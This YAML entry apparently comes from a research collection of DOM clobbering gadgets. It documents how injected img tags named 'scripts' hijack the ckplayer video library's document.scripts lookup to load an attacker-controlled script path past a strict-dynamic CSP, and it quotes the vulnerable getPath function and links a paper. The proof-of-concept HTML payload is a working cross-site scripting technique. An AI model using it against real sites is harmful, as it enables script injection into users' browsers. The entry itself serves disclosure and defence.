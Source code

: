 ```yaml
---
description: ckplayer是一款用于在网页端播放视频的软件，支持mp4点播，,flv点播和直播，m3u8的点播和直播，ts直播，支持移动端，PC端
gadgets:
  Latest:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: The [ckplayer](https://gitee.com/niandeng/ckplayer/tree/master) library uses the `document.scripts` property to additional scripts.
        code: |
          <!-- user input -->
          <img name="scripts" src="[current-location]/assets/xss/index.js#/js/">
          <img name="scripts" src="[current-location]/assets/xss/index.js#/js/">

          <script nonce="secret" src="/assets/libs/ckplayer/ckplayer.js"></script>
          <div class="video"></div>
          <script nonce="secret" type="text/javascript">
              var videoObject = {
                  language: 'en',
                  container: '.video',
                  video: 'https://example.com/a.mp4'
              };
              var player = new ckplayer(videoObject);
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://gitee.com/niandeng/ckplayer/blob/master/ckplayer/js/ckplayer.js#L6819">https://gitee.com/niandeng/ckplayer/blob/master/ckplayer/js/ckplayer.js#L6819</a>

      ```javascript
      function getPath(siz) {
        var scriptList = document.scripts,
          thisPath = scriptList[scriptList.length - 1].src;
        for (var i = 0; i < scriptList.length; i++) {
          var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
          var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
          if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
            thisPath = scriptList[i].src;
            break;
          }
        }
        var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
        if(!isUndefined(siz)){
          path+=siz+'/';
        }
        return path;
      }
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/ckplayer.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

